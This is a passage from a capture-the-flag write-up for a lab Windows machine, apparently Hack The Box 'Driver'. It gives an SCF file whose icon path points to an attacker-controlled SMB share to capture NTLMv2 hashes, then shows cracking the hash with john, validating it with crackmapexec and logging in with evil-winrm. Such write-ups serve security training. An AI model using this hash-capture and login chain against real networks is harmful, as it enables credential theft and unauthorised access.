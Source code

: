 > **SCF** stands for **Shell Command File** and is a file format that supports a very limited set of Windows Explorer commands, such as opening a Windows Explorer window or showing the Desktop. The "Show Desktop" shortcut we all use on a daily basis is an SCF file.

```bash
nvim oldboy.scf
impacket-smbserver smbFolder $(pwd) -smb2support
```

> **oldboy.scf**

```powershell
[Shell]
Command=2
IconFile=\\10.10.14.15\smbFolder\oldboy.ico
[Taskbar]
Command=ToggleDesktop
```

<br/><br/>
<img src="{{ site.img_path }}/driver_writeup/Driver_07.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/driver_writeup/Driver_08.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>

Now that I already have a Hash, if it is weak password, then I will have no problem with cracking it with `john`. It doesn't take long and I get the credentials, which I validate with `crackmapexec`. As the machine has **WinRM** active, I use `evil-winrm` and connect to the box. Now I check that I have access to the first flag, and the first phase is completed, it's time to perform a **user-pivoting** or a **privilege escalation**.

```bash
vi hashNTLMV2.driver
john -w:/usr/share/wordlists/rockyou.txt hashNTLMV2.driver

# Validate username & password
poetry run crackmapexec smb 10.10.11.106 -u 'tony' -p '....'        # :)
poerty run winrm 10.10.11.106 -u 'tony' -p '....'                   # :)

evil-winrm -i 10.10.11.106 -u 'tony' -p '....'
```

> **Evil-winrm** tool is originally written by the team **Hackplayers**. The purpose of this tool is to make penetration testing easy as possible especially in the Microsoft Windows environment. **Evil-winrm** works with PowerShell remoting protocol (PSRP).

```powershell
whoami
hostname
```

<br/>
<img src="{{ site.img_path }}/driver_writeup/Driver_09.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/driver_writeup/Driver_10.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/driver_writeup/Driver_11.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>

